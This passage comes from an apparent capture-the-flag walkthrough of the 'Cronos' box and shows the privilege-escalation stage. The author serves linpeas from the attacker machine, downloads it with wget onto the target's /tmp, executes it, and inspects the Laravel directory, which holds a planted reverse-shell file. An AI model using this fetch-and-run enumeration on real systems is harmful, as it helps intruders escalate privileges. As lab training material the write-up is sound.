 ## Privilege Escalation

Once I retrieved the user flag, I ran `sudo -l` to see what services I could have ran as root but unfrtunately i couldnt run any.

So i decided to use [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to find out the potential attack vectors on the victim machine.

I set up a server in the same directory that the linpeas script resides in.

```
python3 -m http.server 8888
```

On the target machine, I moved to `/tmp` and used `wget` command to get the script from my machine

```
cd /tmp
wget http://10.10.14.6:8888/linpeas.sh
```

Gave it execute privileges
```
chmod +x linpeas.sh
```

And ran the script
```
./linpeas.sh
```

Considering the name of the box, I looked any Potential Red marks in the Crontab section.

![crn-10](https://user-images.githubusercontent.com/87711310/213383690-c2d47c28-12a9-4dcd-89c7-47e5e748d22f.png)

Looking at the permissions and the owner of the `artisan` file

```
www-data@cronos:/tmp$ ls -l /var/www/laravel
ls -l /var/www/laravel
total 2084
-rw-r--r--  1 www-data www-data     727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data    4096 May 10  2022 app
-rwxr-xr-x  1 www-data www-data    5492 Jan 19 07:51 artisan
drwxr-xr-x  3 www-data www-data    4096 May 10  2022 bootstrap
-rw-r--r--  1 www-data www-data    1300 Apr  9  2017 composer.json
-rw-r--r--  1 www-data www-data  121424 Apr  9  2017 composer.lock
-rwxr-xr-x  1 www-data www-data 1836198 Apr  9  2017 composer.phar
drwxr-xr-x  2 www-data www-data    4096 May 10  2022 config
drwxr-xr-x  5 www-data www-data    4096 May 10  2022 database
-rwxr-xr-x  1 www-data www-data   83454 Jan  7  2020 linux-exploit-suggester.sh
-rw-r--r--  1 www-data www-data    1062 Apr  9  2017 package.json
-rw-r--r--  1 www-data www-data    5492 Jan 19 07:50 php-rev-shell.php
-rw-r--r--  1 www-data www-data    1055 Apr  9  2017 phpunit.xml
drwxr-xr-x  4 www-data www-data    4096 May 10  2022 public
-rw-r--r--  1 www-data www-data    3424 Apr  9  2017 readme.md
drwxr-xr-x  5 www-data www-data    4096 May 10  2022 resources
drwxr-xr-x  2 www-data www-data    4096 May 10  2022 routes
-rw-r--r--  1 www-data www-data     563 Apr  9  2017 server.php
drwxr-xr-x  5 www-data www-data    4096 May 10  2022 storage
drwxr-xr-x  4 www-data www-data    4096 May 10  2022 tests
drwxr-xr-x 31 www-data www-data    4096 May 10  2022 vendor
-rw-r--r--  1 www-data www-data     555 Apr  9  2017 webpack.mix.js
www-data@cronos:/tmp$ 
```
